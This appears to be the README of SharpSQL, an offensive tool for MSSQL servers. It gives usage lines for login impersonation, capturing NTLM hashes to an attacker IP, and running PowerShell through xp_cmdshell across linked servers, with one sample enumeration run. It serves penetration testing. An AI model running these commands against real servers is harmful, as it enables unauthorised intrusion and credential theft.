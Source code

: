 # SharpSQL

----

### Command Line Usage


███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
     ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                    ▀▀
Written By: Jb05s | Version: 1.1.0


MSSQL Authenticated Server Enumeration and Impersonation:

    [1] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
            SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
            SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    [3] Retrieve SQL Logins Available for Impersonation and Impersonate the Available Login:
            SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    [4] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
            SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

MSSQL Command Execution:

    [1] Execute Encoded PowerShell Command via 'xp_cmdshell':
            SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    [2] Execute Encoded PowerShell Command via 'Ole Automation Procedures':
            SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

MSSQL Linked Server Command Execution:

    [1] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
            SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    [2] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
    [3] Configure Linked SQL Server to Allow RPC connections:
            SharpSQL.exe rpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

MSSQL Double Linked Server Command Execution:

    [1] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
            SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]


### getlinked

C:\SharpSQL>SharpSQL.exe getlinked /db:master /server:SQL1

███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
     ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                    ▀▀
Written By: Jb05s | Version: 1.1.0

[*] Action: Retrieve Linked Servers

        Usage: SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

[+] Authentication to the 'master' Database on 'SQL1' Successful!
[*] Linked SQL server: SQL2
[*] Linked SQL server: SQL1\SQLEXPRESS


### getdbuser



### getlogin



### gethash